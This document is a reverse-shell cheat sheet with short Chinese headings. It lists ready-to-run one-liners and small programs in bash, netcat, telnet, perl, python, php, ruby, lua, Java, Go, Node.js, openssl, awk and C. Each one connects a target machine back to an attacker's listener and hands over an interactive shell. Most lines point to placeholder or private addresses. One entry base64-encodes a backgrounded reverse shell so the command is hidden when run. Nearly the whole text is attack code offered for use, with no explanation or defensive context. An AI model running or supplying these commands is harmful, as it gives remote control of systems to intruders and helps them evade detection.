










介绍
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1 #TCP
Listener:
nc -nvlp 1234

sh -i >& /dev/udp/127.0.0.1/1234 0>&1 #UDP
Listener:
nc -u -lvp 1234

0<&196;exec 196<>/dev/tcp/127.0.0.1/1234; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/127.0.0.1/1234; while read line 0<&5; do $line 2>&5 >&5; done

nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'
base64搞一下命令
echo "nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYxJwo= | base64 -d | bash 2>/dev/null

telnet 127.0.0.1 1234 | /bin/sh #Blind
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 127.0.0.1 1234 >/tmp/f
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet 127.0.0.1 1234 1>/tmp/bkpipe
 
telnet 127.0.0.1 1234 | /bin/bash | telnet 127.0.0.1 12345

perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[127.0.0.1]:[1234]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
export RHOST="127.0.0.1";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r 'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/1234")'
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
nc -e /bin/sh 127.0.0.1 1234
如果nc 不支持 -e
nc 127.0.0.1 1234 | /bin/sh #Blind
nc <ATTACKER-IP> <PORT1>| /bin/bash | nc <ATTACKER-IP> <PORT2>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc 127.0.0.1 1234 1>/tmp/bkpipe
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f
 
lua -e "require('socket');require('os');t=socket.tcp();t:connect('127.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
Golang
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
Nodejs
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(8080, "10.17.26.64", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();
or
require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
or
-var x = global.process.mainModule.require
-x('child_process').exec('nc [IPADDR] [PORT] -e /bin/bash')
用openssl 反弹shell
攻击者
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
靶机
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
int main(void){
int port = 4242;
struct sockaddr_in revsockaddr;
int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");
connect(sockt, (struct sockaddr *) &revsockaddr,
sizeof(revsockaddr));
dup2(sockt, 0);
dup2(sockt, 1);
dup2(sockt, 2);
char * const argv[] = {"/bin/sh", NULL};
execve("/bin/sh", argv, NULL);
return 0;
}
Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash